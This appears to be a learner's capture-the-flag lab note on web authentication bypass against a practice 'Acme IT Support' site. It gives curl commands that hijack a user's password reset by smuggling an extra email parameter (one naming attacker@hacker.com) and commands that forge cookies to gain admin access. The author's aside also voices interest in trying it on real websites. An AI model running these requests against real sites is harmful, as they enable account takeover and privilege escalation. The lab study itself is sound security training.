 ```shell
curl 'http://10.10.206.157/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email=attacker@hacker.com'
```

For the next step, you'll need to create an account on the Acme IT support customer section, doing so gives you a unique email address that can be used to create support tickets. The email address is in the format of `{username}@customer.acmeitsupport.thm`

Now rerunning Curl Request 2 but with your @acmeitsupport.thm in the email field you'll have a ticket created on your account which contains a link to log you in as Robert. Using Robert's account, you can view their support tickets and reveal a flag.
```shell
curl 'http://10.10.206.157/customers/reset?email=robert@acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email={username}@customer.acmeitsupport.thm'
```

So i must see some stuff on youtube and i see it very cool PWN to website by sending the reset ticket to my account so cool stuff, it will attract not only me but also u, very strange and interesting stuff and i will do this stuff on LAB in hacking repo with realweb<br>
![[Pasted image 20240219140726 1.png]]

![[Pasted image 20240219140738 1.png]]

## Cookie Tampering
Examining and editing the cookies set by the web server during your online session can have multiple outcomes, such as unauthenticated access, access to another user's account, or elevated privileges.

### Plaintext
The contents of some cookies can be in plain text, and it is obvious what they do. Take, for example, if these were the cookie set after a successful login:

    Set-Cookie: logged_in=true; Max-Age=3600; Path=/
    Set-Cookie: admin=false; Max-Age=3600; Path=/

We see one cookie (logged_in), which appears to control whether the user is currently logged in or not, and another (admin), which controls whether the visitor has admin privileges. Using this logic, if we were to change the contents of the cookies and make a request we'll be able to change our privileges.

*Do this stuff like access the cookies by Curl to directly with web request and received the flag or something needing. Do this stuff by step*
```shell
# We can see we are returned a message of: Not Logged In
curl http://10.10.206.157/cookie-test 
# We can see : Logged In As A User
curl -H "Cookie: logged_in=true; admin=false" http://10.10.206.157/cookie-test
# We can see : Logged In As An Admin
curl -H "Cookie: logged_in=true; admin=true" http://10.10.206.157/cookie-test 
```
### Hashing
Sometimes cookie values can look like a long string of random characters; these are called hashes which are an irreversible representation of the original text. Here are some examples that you may come across:
